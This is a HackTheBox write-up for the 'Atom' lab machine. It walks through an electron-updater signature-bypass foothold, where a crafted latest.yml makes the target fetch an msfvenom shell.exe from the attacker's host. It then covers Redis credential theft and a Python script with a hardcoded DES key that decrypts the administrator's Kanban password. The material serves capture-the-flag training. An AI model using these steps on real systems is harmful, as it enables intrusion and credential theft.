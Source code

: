Title: Atom writeup HackTheBox - by DarkRider88
Date: 17/05/2021
Description: This is a easy level windows box in which we are exploiting a binary built on electron-builder which is vulnerable to update signature bypass, and this gives us remote code execution.
Image: /assets/images/atom.jpg

# Enumeration

```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-23 10:50 IST
Nmap scan report for 10.10.10.237
Host is up (0.24s latency).
Not shown: 996 filtered ports
PORT    STATE SERVICE      VERSION
80/tcp  open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
135/tcp open  msrpc        Microsoft Windows RPC
443/tcp open  ssl/http     Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
445/tcp open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: ATOM; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.14 seconds
```
Checking the smb port, there are few folders and one of them contains a pdf file.
On port 80, there is a application to download for windows.
The pdf says the app is build with electron-builder and it is using the electron-updater for pushing the regular updates.
The updates are being fetched from the client folders from SMB port.

Searching for exploit: https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html

Now we have to create a latest.yml file and put it into the client folder, which will help the updater to fetch our malicious payload.

## Getting shell

- create a exe file with msfvenom
- then create a latest.yml file like this

```
version: 2.0.0
path: http://10.10.16.5/r'shell.exe
sha512: Ih68rZYJKgdl3hlarnl+6kgqKig8Yh4l4KsYl80/FqCU6pxNH0JImoLiiAitO5UDMXkfdYVk5IwdbI0KYEkL3w==
```

## Root

run winPeas
Redis server is running
found a file: C:\program files\redis\redis.windows-service.conf

a password: kidvscat_yes_kidvscat

through this password we can connect with redis server

Install redis-tools on your computer 

connect with the server
```
redis-cli -h 10.10.10.237 -a kidvscat_yes_kidvscat
```

list keys
```
keys *
```
get user
```
get get pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0 

"{\"Id\":\"e8e29158d70d44b1a1ba4949d52790a0\",\"Name\":\"Administrator\",\"Initials\":\"\",\"Email\":\"\",\"EncryptedPassword\":\"Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi\",\"Role\":\"Admin\",\"Inactive\":false,\"TimeStamp\":637530169606440253}"
10.10.10.237:6379> 

```

Search again the machine and we foudn a kanban portable pdf..
search for its exploit we found a script to decrypt its password

```py
import json
import base64
from des import * #python3 -m pip install des

try:
    hash = str(input("Enter the Hash : "))
    hash = base64.b64decode(hash.encode('utf-8'))
    key = DesKey(b"7ly6UznJ")
    print("Decrypted Password : " + key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8'))
except:
    print("Wrong Hash")
```

